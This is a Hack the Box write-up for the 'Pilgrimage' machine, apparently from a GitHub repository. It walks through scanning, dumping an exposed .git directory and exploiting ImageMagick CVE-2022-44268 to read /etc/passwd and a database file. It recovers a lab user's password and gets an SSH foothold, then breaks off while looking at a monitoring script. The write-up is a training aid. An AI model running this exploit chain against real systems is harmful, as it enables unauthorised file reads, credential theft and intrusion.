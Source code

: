 # Hack the Box - Pilgrimage

### Port Scan
```JS
rustscan -a 10.10.11.219 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e689b57a-a922-4249-bd1f-e9fa6a10c6b1)

### Service Scan
```JS
nmap -sV -sC -A --min-rate 1000 10.10.11.219 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e7088bb-eda7-48c9-a997-9aff249734e7)

### HTTP
#### /index.php
```
http://pilgrimage.htb/index.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/926d244a-ec49-4f00-b52e-2470dcf12de7)

#### /login.php
```
http://pilgrimage.htb/login.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91c3655e-75c4-4434-a7c0-6cb6ffb4f416)

#### /register.php
```
http://pilgrimage.htb/register.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ae7ea9df-3379-4ae2-9bb1-21aab0840fb0)

#### /.git
```
http://pilgrimage,htb/.git/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf236a5d-c1d5-4e61-b79b-51f8ee5df32f)

### Dump /.git
```JS
git-dumper http://pilgrimage.htb/.git/ git
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e034218-7ed2-4956-b0e3-821f84f9a665)

## Interaction
### Create Account
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8aace601-5083-47e0-9097-4d362135c8cb)

### Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/59281814-60c3-4606-aa98-5b736e27baee)

### Dashboard
```
http://pilgrimage.htb/dashboard.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2baf238c-a0fd-4fa2-8492-96816f3450e4)

### Shrink Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/28416acf-9319-4a20-aca5-0f2477231c16)

### Shrunk Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/45222057-30a0-40cb-9236-277ac66f3cdb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b7769831-449a-4948-ad62-33f08d6fbae5)

## Source Code
- The code uses "magick" to shrink the uploaded image.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e1e8ac77-b705-4a8a-a2f3-a1e887ede57d)

### Search Exploits
```
searchsploit magick
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dfc0dea8-95b2-412e-9509-488bcf24d57e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a7440d9-e578-4433-a503-4c280c16ddd1)

### Exploit - Magick (Arbitrary File Read): CVE-2022-44268
The exploit allows to read arbitrary files on the server.
The suggested exploit is scripted in rust. I will be using an explot scripted in python.
```
https://github.com/kljunowsky/CVE-2022-44268
```
- Prepare Payload
```Python
python3 CVE-2022-44268.py --image image.png --file-to-read /etc/passwd --output payload.png
```
- Upload Payload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e9cba83e-70ca-4960-a5f2-1807331d9673)

- Payload URL
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/81f3e148-a8bb-4973-8a8b-ff322b454fd6)

- Read Files
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5b8058a661.png
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7fb8b1c-f9c6-4481-8c53-532b754d4bd8)

- Identified Users
  - root
  - emily

- The code in `/register.php` contains:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c690079-74ee-4b7b-b598-9bdad2152018)

- Prepare a payload and read the file as done in the previous step. I had to modify the script as it was throwing an error. Now I get the output as hex.
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5bc11c30f2.png | tee data.hex
```
- Convert the received hex data as an image to string.
```
cat data.hex | xxd -r -p && echo ''
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf82acca-237f-434e-8797-cebf1f19f690)

- Credentials found: emily:abigchonkyboi123

### FootHold
```
ssh emily@10.10.11.219
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c917b15a-555d-4fc4-8dd2-b21d8c8be882)

### List Processes
```
ps -aux
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f693978e-2530-4cfd-97de-bc04979feabf)

- Contents of `/usr/sbin/malwarescan.sh`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c61faa6e-3264-4917-a728-9faef849e886)

The bash script uses a command `inotifywait` to monitor a directory for newly created files and then checks if the content of those files contains certain blacklisted phrases using the `binwalk` tool.
